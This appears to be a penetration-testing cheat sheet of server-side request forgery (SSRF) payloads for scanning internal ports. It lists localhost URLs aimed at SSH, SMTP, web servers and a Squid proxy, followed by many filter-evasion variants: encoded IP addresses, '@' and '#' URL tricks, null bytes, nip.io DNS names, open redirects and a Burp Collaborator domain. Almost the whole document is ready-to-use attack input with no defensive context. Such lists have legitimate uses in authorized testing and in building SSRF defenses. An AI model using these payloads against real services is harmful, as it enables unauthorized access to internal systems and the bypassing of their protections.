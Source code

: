 # Internal Port Scan

## SSH

```
http://127.0.0.1:22
```

## SMTP

```
http://[::]:25/
```

## Web Server

### HTTP

```
http://127.0.0.1:443
http://127.0.0.1:80
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
```

### Evasion

Open Redirect.

```
http://localhost/?d=google.com
http://127.0.0.1/?d=google.com
```

```
http://127.1
http://127.0.1
http://127.1:80
http://0
http://0/
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
http://①②⑦.⓪.⓪.⓪
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://2130706433
http://017700000001
http://0x7f000001

http://google.com@127.0.0.1
http://127.0.0.1#google.com
http://google.com.127.0.0.1
http://127.0.0.1/google.com

https://google.com@127.0.0.1
https://127.0.0.1#google.com
https://google.com.127.0.0.1
https://127.0.0.1/google.com
https://127.0.0.1/?d=google.com
http://google.com@localhost
http://localhost#google.com
http://google.com.localhost
http://localhost/google.com
```

```
http://127.0.0.1%00google.com
http://127.0.0.1?google.com
http://127.0.0.1///google.com
https://127.0.0.1%00google.com
https://127.0.0.1?google.com
https://127.0.0.1///google.com
```

```
https://customer1.app.localhost.my.company.127.0.0.1.nip.io
mail.ebc.apple.com
127.0.0.1.nip.io
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
localhost:+11211aaa
localhost:00011211aaaa
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

```
http://bugbounty.dod.network
http://spoofed.burpcollaborator.net
```

## HTTP Proxy

Squid

```
http://[::]:3128/
```

---
## References

### Source Repositories

- [leetCipher: ssrf bypasses wordlist](https://github.com/leetCipher/bug-bounty-labs/blob/main/ssrf-with-dns-rebinding-lab/poc/ssrf-bypasses.txt)
